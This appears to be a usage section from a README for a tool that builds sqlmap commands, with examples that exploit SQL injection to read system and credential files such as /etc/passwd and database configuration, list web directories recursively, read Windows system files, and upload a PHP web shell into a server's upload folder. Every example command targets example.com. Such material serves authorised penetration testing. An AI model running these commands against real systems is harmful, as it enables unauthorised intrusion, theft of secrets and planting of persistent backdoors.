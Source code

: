 ## 📝 Usage Examples

### Basic File Reading
```
Read File: /etc/passwd
```
**Generated Command:**
```bash
sqlmap -u "http://example.com/page.php?id=1" --file-read=/etc/passwd
```

### Web Shell Upload
```
Write Local File: ./shell.php
Destination: /var/www/html/uploads/shell.php
```
**Generated Command:**
```bash
sqlmap -u "http://example.com/upload.php?id=1" --file-write=./shell.php --file-dest=/var/www/html/uploads/shell.php
```

### Directory Exploration
```
List Directory: /var/www/html/
Recursive: ✓ Enabled
```
**Generated Command:**
```bash
sqlmap -u "http://example.com/browse.php?id=1" --file-list=/var/www/html/ --recursive
```

### Configuration File Access
```
Read Multiple Files: /etc/mysql/my.cnf,/var/www/config.php,/home/user/.bashrc
```
**Generated Command:**
```bash
sqlmap -u "http://example.com/admin.php?id=1" --file-read=/etc/mysql/my.cnf,/var/www/config.php,/home/user/.bashrc
```

### Windows System File Access
```
Read File: C:\Windows\System32\drivers\etc\hosts
List Directory: C:\Windows\System32\
```
**Generated Command:**
```bash
sqlmap -u "http://example.com/win.php?id=1" --file-read=C:\Windows\System32\drivers\etc\hosts --file-list=C:\Windows\System32\
```
